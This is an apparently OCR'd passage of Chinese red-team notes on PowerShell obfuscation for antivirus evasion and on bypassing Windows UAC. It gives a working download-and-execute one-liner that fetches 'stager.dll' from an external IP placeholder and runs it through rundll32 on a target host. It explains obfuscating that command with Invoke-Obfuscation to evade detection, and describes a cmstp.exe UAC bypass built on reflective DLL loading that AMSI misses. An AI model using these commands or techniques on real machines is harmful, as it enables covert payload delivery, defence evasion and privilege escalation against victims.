 powershell混淆

```
cd Invoke-Obfuscation && powershell -exec bypass -c "Import-Module ./Invoke-Obfuscation.psd1;Invoke-Obfuscation"
```

混淆这条命令

```
$file = $env:temp+'\'+(Get-Random)+'.dll'; (New-Object System.Net.WebClient).DownloadFile('http://外网ip/stager.dll',$file); $exec = New-Object -com shell.application; $exec.shellexecute('rundll32',$file+',Exec');
```

然后再对方主机powershell执行

由此可以免杀

<https://github.com/phackt/stager.dll>

reference:

<http://www.secist.com/archives/7195.html?tdsourcetag=s_pctim_aiomsg>

[求助\] Apache 2.2.14 mod_isapi Dangling Pointer漏洞用法](https://bbs.silic.wiki/thread-3039-1-1.html)

[我的shellcode编写之路](http://www.secist.com/archives/4809.html)

[渗透攻防工具篇-后渗透阶段的Meterpreter](https://paper.seebug.org/29/)

# 0x03 bypass_uac

这几天看到的bypass 方法比较多，趁今天有空做个总结

## 一、cmstp.exe作为绕过UAC

利用microsoft的 “cmstp.exe”作为绕过UAC

其主要原理采用c#生成带有dll反射的的powershell脚本，amsi检测不到

关于amsi的文章参考：

<https://xz.aliyun.com/t/3095>

这里的文件编译号生成为dll文件

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehrf4diqj211z09oq5i.jpg)



![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvgal9qj20z10eejt9.jpg)

执行即可弹出administrator的命令行

另附自动化脚本放在附件里

![img](https://ws1.sinaimg.cn/large/b6de3d7dly1fyehvqrnfsj211y0kb43g.jpg)

这里看到与表哥复现
